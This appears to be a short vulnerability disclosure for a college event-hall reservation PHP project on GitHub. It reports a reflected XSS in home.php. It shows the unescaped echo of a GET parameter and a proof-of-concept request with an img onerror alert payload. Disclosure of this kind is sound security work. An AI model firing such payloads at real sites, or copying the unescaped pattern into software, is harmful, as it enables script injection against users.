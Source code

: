 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /login.php

## Code
```php
$id=$_GET['id'];?>

 <h1 class="logo "><a href="home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: 127.0.0.1
```

## Screenshot

